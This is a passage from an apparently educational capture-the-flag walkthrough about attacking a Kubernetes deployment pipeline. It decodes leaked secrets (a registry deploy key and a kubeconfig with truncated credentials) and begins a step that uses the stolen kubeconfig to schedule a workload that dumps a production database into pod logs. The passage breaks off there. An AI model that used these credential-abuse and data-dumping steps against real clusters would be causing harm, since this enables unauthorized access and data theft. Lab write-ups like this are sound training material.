 ```bash
echo "echo "c3RvcmVpbWFnZQo=...PTl9GTEFXU33i" | base64 -d

storeimage
apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: LS0tL...0FURS0tLS0tCg==
    server: https://172.31.2.127:6443
  name: default
contexts:
- context:
    cluster: default
    user: runner
  name: runner
current-context: runner
kind: Config
preferences: {}
users:
- name: runner
  user:
    client-certificate-data: LS0tLS...URS0tLS0tCg==
    client-key-data: LS0tLS1CRU...tRU5EIFBSSVZBVEUgS0VZLS0tLS0K
“flag_ctf{SECRETS_REVEALED_2_THOSE_WHO_ENVISION_FLAWS}"
```

From top to bottom, we have the following:

1. The deploy key for the registry - `storeimage`
2. The kubeconfig for the cluster - `apiVersion: v1 ...`
3. The flag - `flag_ctf{SECRETS_REVEALED_2_THOSE_WHO_ENVISION_FLAWS}`

Excellent we discovered the first flag and made a step forward to obtaining access to the production database.

### Step 5: Using the kubeconfig to deploy a workload and dump the database to pod logs

At this point there are a couple pathways to explore but we leverage the container registry to push our own container image too or we could directly leverage the kubeconfig to deploy a workload into the cluster. We highly recommend you explore different pathways to obtain access to the production environment, but for simplicity we will leverage the kubeconfig to deploy a workload.

We have access to a jumpbox, so let's load the kubeconfig and enumerate what permissions we have. We already know from the `build.yaml` file that we can create a cronjob.

```bash
echo "apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: LS0tLS...S0tLS0tCg==
    server: https://172.31.2.127:6443
  name: default
contexts:
- context:
    cluster: default
    user: runner
  name: runner
current-context: runner
kind: Config
preferences: {}
users:
- name: runner
  user:
    client-certificate-data: LS0t...0tLS0tCg==
    client-key-data: LS0tLS....=LS0tRU5EIFBSSVZBVEUgS0VZLS0tLS0K" > file.config
```